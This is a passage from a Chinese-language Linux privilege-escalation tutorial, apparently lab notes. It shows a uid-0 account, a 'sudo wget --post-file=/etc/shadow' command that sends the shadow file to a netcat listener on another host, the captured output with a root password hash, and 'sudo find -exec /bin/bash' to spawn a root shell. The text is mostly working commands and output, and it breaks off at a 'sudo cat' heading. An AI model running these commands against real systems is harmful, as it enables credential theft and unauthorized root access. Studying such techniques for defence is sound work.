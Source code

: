 切换到到`/hack`用户，密码`123456`

```bash
/hack@listen:/tmp# id
uid=0(/hack) gid=0(root) groups=0(root)
```

## sudo wget

wget 提权的原理是：

使用–post-file参数将/etc/shadow的内容发送到监听IP并保存未hash.txt（kali）

```sql
// 靶机
 sudo /usr/bin/wget --post-file=/etc/shadow 192.168.75.151:1234 
```

```sql
// kali
nc -lvp 1234 > hash.txt
//
listening on [any] 1234 ...
192.168.75.151: inverse host lookup failed: Unknown host
connect to [192.168.75.151] from (UNKNOWN) [192.168.75.151] 54598
^C
===================================================                                                                                                                                                
cat hash.txt
//
POST / HTTP/1.1
Host: 192.168.75.151:1234
User-Agent: Wget/1.21.3
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1585

root:$y$j9T$o1EqDobVg.yt.aANkoutR/$AuDYRKpmrToVENA6oX8xVtne.SWhLbanmq8v9gpAOW0:19984:0:99999:7:::
daemon:*:19984:0:99999:7:::
bin:*:19984:0:99999:7:::

```

## sudo find

这里使用“`exec`”来执行`/bin/bash`，以访问`root shell`

```sql
sudo find /home -exec /bin/bash \;
```

## sudo cat
